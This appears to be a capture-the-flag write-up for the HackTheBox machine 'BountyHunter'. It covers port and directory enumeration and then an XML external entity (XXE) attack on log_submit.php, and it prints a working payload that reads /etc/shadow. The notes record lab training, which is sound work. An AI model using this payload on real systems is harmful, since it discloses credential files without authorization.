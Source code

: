 ### Box Info
OS: Linux
IP: 10.10.11.100

## Part I 

### Skills learned:
xml xxe vulnerability


### Enum
nmap -p- -A -oN BountyHunter.txt ${IP}
+ 22 SSH 
+ 80 http Apache httpd 2.4.41

### Search
Yields
+ https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing

### Step 1: 
+ dirb ${IP} || dirb ${IP}/ -X .php
  + /assets/
  + /log_submit.php (looks interesting
  + /resources/ (looks promising)
  + 
### Burp suite
+ ${IP}/log_submit.php
+ dummy test packet
  + Data needs to be *URL then Base64 decoded*
  + Find template https://github.com/payloadbox/xxe-injection-payload-list
  + adjust headers to db.php headers
  + payload needs to be *Base64 then url encoded*
+ Send payload via Burp/Repeater.

#### db.php payload:
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>test</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>

#### payload file disclosure:

<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
    <bugreport>
    <title>&ent;</title>
    <cwe>test</cwe>
    <cvss>test</cvss>
    <reward>rest</reward>
    </bugreport>

Obtain Username: ${UN}
